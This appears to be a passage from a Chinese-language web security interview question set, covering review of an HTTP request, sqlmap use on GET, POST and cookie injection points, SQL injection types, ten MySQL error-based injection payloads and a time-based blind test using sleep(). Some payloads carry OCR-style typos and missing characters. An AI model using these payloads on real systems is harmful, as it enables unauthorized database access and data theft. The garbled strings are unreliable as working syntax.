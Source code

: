   
 **37、圈出下面会话中可能存在问题的项，并标注可能会存在的问题？**  

  *   *   *   *   *   *   *   *   *   *   * 

    
    
     get /ecskins/demo.jsp?uid=2016031900&keyword=”hello world”HTTP/1.1Host:***.com:82User-Agent:Mozilla/5.0 Firefox/40Accept:text/css,/;q=0.1Accept-Language:zh-CN;zh;q=0.8;en-US;q=0.5,en;q=0.3Referer:http://*******.com/eciop/orderForCC/cgtListForCC.htm?zone=11370601&v=145902Cookie:myguid1234567890=1349db5fe50c372c3d995709f54c273d;uniqueserid=session_OGRMIFIYJHAH5_HZRQOZAMHJ;st_uid=N90PLYHLZGJXI-NX01VPUF46W;status=TrueConnection:keep-alive

  
 **38、给你一个网站你是如何来渗透测试的?**

  * 

    
    
     在获取书面授权的前提下。

  
 **39、sqlmap，怎么对一个注入点注入？**

  *   * 

    
    
     1）如果是get型号，直接，sqlmap -u "诸如点网址".2) 如果是post型诸如点，可以sqlmap -u "注入点网址” --data="post的参数"3）如果是cookie，X-Forwarded-For等，可以访问的时候，用burpsuite抓包，注入处用号替换，放到文件里，然后sqlmap -r "文件地址"

  
 **40、nmap，扫描的几种方式**  
 **41、sql注入的几种类型？**

  *   *   *   * 

    
    
     1）报错注入2）bool型注入3）延时注入4）宽字节注入

 **42、报错注入的函数有哪些？**  

  *   *   *   *   *   *   *   *   *   *   * 

    
    
     10个1）and extractvalue(1, concat(0x7e,(select @@version),0x7e))】】】----------------2）通过floor报错 向下取整3）+and updatexml(1, concat(0x7e,(secect @@version),0x7e),1)4）.geometrycollection()select from test where id=1 and geometrycollection((select from(selectfrom(select user())a)b));5）.multipoint()select from test where id=1 and multipoint((select from(select from(select user())a)b));6）.polygon()select from test where id=1 and polygon((select from(select from(select user())a)b));7）.multipolygon()select from test where id=1 and multipolygon((select from(select from(select user())a)b));8）.linestring()select from test where id=1 and linestring((select from(select from(select user())a)b));9）.multilinestring()select from test where id=1 and multilinestring((select from(select from(select user())a)b));10）.exp()select from test where id=1 and exp(~(select * from(select user())a));

  
 **43、延时注入如何来判断？**

  * 

    
    
     if(ascii(substr(“hello”, 1, 1))=104, sleep(5), 1)
